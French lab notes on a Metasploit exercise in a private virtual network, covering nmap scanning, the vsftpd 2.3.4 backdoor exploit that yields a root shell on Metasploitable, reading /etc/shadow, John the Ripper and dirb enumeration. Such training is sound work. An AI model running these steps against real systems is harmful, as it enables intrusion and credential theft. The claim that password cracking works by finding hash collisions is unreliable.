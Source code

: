 # Metasploit

TP réalisé dans l'infrastructure virtuelle suivante :

- réseau : 172.16.0.0/24

- Metasploitable : 172.16.0.102/24

- Kali Linux : 172.16.0.30/24

Sur la Kali :

Entrer dans la console metasploit : `msfconsole`

Commandes :

```bash
search $service
# par exemple
info exploit/linux/http/librenms_collectd_cmd_inject
use exploit/linux/http/librenms_collectd_cmd_inject
options # affiche les paramètres
set RHOST $une_adresse # définir l'adresse de la machine ciblée
```

# Cartographier le réseau

nmap :

```bash
nmap $réseau
nmap -sV $hôte_ciblé
nmap -sV $hôte_ciblé -p $ports_ciblés
```

# Exploitation d'une faille par metasploit

Une fois que la cible est repérée ainsi qu'un de ses ports faillibles ouverts, on lance l'exploit. Dans notre cas, la vulnérabilité est une porte dérobée de vsftpd.

```bash
use unix/ftp/vsftpd_234_backdoor
set RHOST 172.16.0.102
exploit
```

Et s'ouvre un shell en tant que root.

## Forcer le mot de passe

> /etc/passwd contient les infos des utilisateurs, mais pas leurs mot de passe. Les hash des mots de passe sont listés dans /etc/shadow.

On ne connaît pas le mot de passe, et on ne peut pas traduire le hash en mot de passe. Mais Linux ne compare pas l'entrée de l'utilisateur avec les mots de passe eux-mêmes, mais leur hash.

L'idée est de trouver une collision. C'est-à-dire une valeur autre que le véritable mot de passe, dont le hash est identique à celui du mot de passe original.

On peut utiliser John the ripper.

# Scanner un site web

L'utilitaire *dirb* inspecte l'entièreté du répertoire servi par le service web. On peut donc cartographier le site web. Parmi les fichiers trouvables avec *dirb*, on peut relever un fichier fréquent, *phpinfo.php* qui donne la version de php utilisée par le serveur.




